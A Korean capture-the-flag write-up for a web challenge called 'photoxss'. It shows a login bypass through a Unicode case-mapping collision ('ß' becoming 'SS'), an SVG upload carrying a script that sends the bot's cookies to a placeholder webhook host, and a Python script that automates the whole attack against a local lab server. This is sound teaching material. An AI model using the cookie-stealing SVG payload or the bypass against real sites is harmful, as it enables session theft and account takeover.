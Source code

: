 # photoxss

# usage

# Concept
- file upload xss
- Unicode Case Mapping Collisions

# writeup
먼저 간단히 요약해서 설명하자면 로그인을 한뒤 파일을 업로드하고 리포트를 하는 기능을 가진 웹사이트입니다. 
db를 먼저 잠깐 살펴보자면 
### init.sql
```sql
INSERT INTO users (id, pw) VALUES ('PHOTOXSS_ADMIN', 'photoxss!@@');
```
id랑 pw가 기본적으로 있고 이걸로 로그인을 해야만 업로드가 가능합니다. 
### app.js
```js
app.route('/login')
  .get((req, res) => {
    res.render('login');
  })
  .post((req, res) => {
    let id = req.body.id;
    let pw = req.body.pw;

    if (!id || typeof id !== 'string' || !pw || typeof pw !== 'string') {
      res.send('<script>alert("로그인 실패 ㅋ");window.location.href="/login"</script>');
    } else {
      const id_length = id.length;
      if (id_length >= 14) {
        res.send('<script>alert("ID too long!!");window.location.href="/login"</script>');
      } else {
        id = id.toUpperCase();
        const query = 'SELECT * FROM users WHERE id = ? AND pw = ?';
        conn.query(query, [id, pw], (err, results) => {
          if (err || results.length === 0) {
            res.send('<script>alert("로그인 실패 ㅋ");window.location.href="/login"</script>');
          } else {
            req.session.user = id; 
            res.redirect('/upload');
          }
        });
      }
    }
  });
```
그러나 id길이 제한을 걸어놓은 뒤에 id를 toUpperCase함수로 대문자로 바꿉니다. 
"PHOTOXSS_ADMIN".length == 14 입니다. 그래서 평범한 방법으론 길이 제한으로 인해 로그인이 안되고 
Unicode Case Mapping Collisions으로 우회를 해야합니다. 

"ß".toUpperCase() == 'SS' 입니다. 그래서 PHOTOXß_ADMIN로 로그인을 하면 길이제한을 우회하고 최종적으로 PHOTOXSS_ADMIN으로 로그인할 수 있습니다!!

```js
const upload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    const allowedFileTypes = ['.png', '.jpg', '.svg'];
    const extname = path.extname(file.originalname).toLowerCase();

    if (allowedFileTypes.includes(extname)) {
      cb(null, true);
    } else {
      cb(new Error('Invalid file type. Only PNG, JPG, and SVG are allowed.'));
    }
  },
});
```
업로드 부분의 코드를 살펴보면 png, jpg, svg파일만 업로드가 가능합니다.
그리고 flag는 bot의 쿠키에 있습니다! 따라서 문제제목처럼 xss를 하면 됩니다. 

svg은 xss가 가능하기에 svg파일을 업로드하고 그 파일 경로를 report하면 됩니다!!

### solve.svg
물론 웹훅사이트는 실제 웹훅사이트로 바꿔야합니다!!
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      location.replace(`https:/webhooksite/${document.cookie}`)
   </script>
</svg>
```

### solve.py
```py
import requests
import re

url = 'http://localhost:10002'
payload = {"id": "PHOTOXß_ADMIN", "pw": "photoxss!@@"}
sess = requests.Session()
sess.post(url+'/login', data=payload)

file_path = './solve.svg'

# 파일 열기
with open(file_path, 'rb') as solve_svg:
    solve_files = {'file': solve_svg}

    # 업로드 요청 보내기
    res = sess.post(url+'/upload', files=solve_files)

    # 파일 업로드 후에는 파일 객체를 닫습니다.
    solve_svg.close()

    # 파일 업로드 응답에서 URL 추출
    pattern = r'href="(/uploads/[^"]+)"'
    matches = re.findall(pattern, res.text)

    if matches:
        upload_url = matches[0]
        print("파일 업로드 성공:", upload_url)

        report_res = sess.post(url+'/report', data={'url': f"http://127.0.0.1:3000{upload_url}"})
        print(report_res.text)
    else:
        print("URL을 찾을 수 없습니다.")

```
로그인을 하고 그 세션을 유지하면서 같은경로에 있는 svg파일을 업로드하고 업로드된 경로를 저장하고 그 경로를 report합니다!!


솔브 코드를 실행하고 웹훅사이트를 보면 flag가 잘 찍혀있는 것을 확인할 수 있을겁니다!!